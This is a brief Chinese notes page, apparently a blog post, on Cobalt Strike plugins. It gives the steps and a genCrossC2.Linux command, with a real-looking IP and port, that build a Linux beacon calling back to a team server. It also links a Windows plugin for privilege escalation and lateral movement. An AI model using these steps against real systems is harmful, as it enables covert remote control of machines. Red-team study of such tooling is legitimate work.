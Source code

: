 ```yaml
---
title: cobaltstrike的脚本（四）
categories:
- cobaltstrike
tags:
- cobaltstrike
---
```



# linux上线插件CrossC2

[录制的视频： CobaltStrike的插件](https://www.bilibili.com/video/BV1Fy4y1B7VP)

```
1. src目录下，修改cna
$CC2_PATH
$CC2_BIN

2. 添加证书
.cobaltstrike.beacon_keys

3. 
./genCrossC2.Linux 18.163.137.185 6677 /root/tool/cobaltstrike/CrossC2-master/.cobaltstrike.beacon_keys null Linux x64 test
```
## windows辅助插件-梼杌
具有信息搜集、提权、横向移动等功能。
[https://github.com/pandasec888/taowu-cobalt-strike](https://github.com/pandasec888/taowu-cobalt-strike)

## 参考资料
- https://github.com/gloxec/CrossC2#customextension
- https://www.cobaltstrike.com/help-scripting
- https://www.wangan.com/articles/1069
